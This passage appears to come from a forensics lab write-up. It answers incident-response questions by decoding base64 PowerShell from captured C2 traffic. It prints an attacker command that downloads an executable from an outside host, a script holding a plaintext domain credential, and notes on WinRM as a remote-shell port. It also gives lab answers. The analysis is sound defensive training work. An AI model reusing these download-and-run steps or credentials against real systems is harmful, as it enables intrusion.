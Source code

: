 In addition we may refer to our cheatsheet for Brim to quickly investigate the encoded traffic with the following filters:

- To get all HTTP requests related to the malicious C2 traffic: `_path=="http" "<replace domain>" id.resp_p==<replace port> | cut ts, host, id.resp_p, url | sort ts`
### Significant Data Sources

- Packet Capture
- Sysmon
### Question 1

> The attacker was able to discover a sensitive file inside the machine of the user. What is the password discovered on the aforementioned site?

Going through the base64 encoded commands, we find the following:

![](https://i.imgur.com/Oorlp51.png)

**Answer**: infernotempest.

Combine all of the base64 encoded commands into one query on CyberChef, and it will reveal the full command. 
### Question 2

> The attacker then enumerated the list of listening ports inside the machine. What is the listening port that could provide a remote shell inside the machine?

Again decoding the base64 commands, we see netstat being executed:

![](https://i.imgur.com/68JN4dj.png)

Doing some googling, we see that Port 5985 is of interest to us.

"*Specifies the ports that the WinRM service uses for either HTTP or HTTPS. WinRM 2.0: The default HTTP port is 5985. The default HTTPS port is 5986.*"

In Wireshark, we also saw traffic like this:

![](https://i.imgur.com/cAu4ve8.png)

I pulled the Base64 traffic out using Brim, fed it into base64decode.org, stripped out the junk, and got this.

```
cat C:\Users\Benimaru\Desktop\automation.ps1 - $user = "TEMPEST\benimaru"  
$pass = "infernotempest"  
  
$securePassword = ConvertTo-SecureString $pass -AsPlainText -Force;  
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword
```

```
powershell iwr http://phishteam.xyz/02dcf07/ch.exe -outfile C:\Users\benimaru\Downloads\ch.exe
```

```
netstat -ano -p tcp -   
Active Connections  
  
  Proto  Local Address          Foreign Address        State           PID  
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       864  
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5508  
  TCP    0.0.0.0:5357           0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:7680           0.0.0.0:0              LISTENING       4964  
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4  
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       476  
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       1212  
```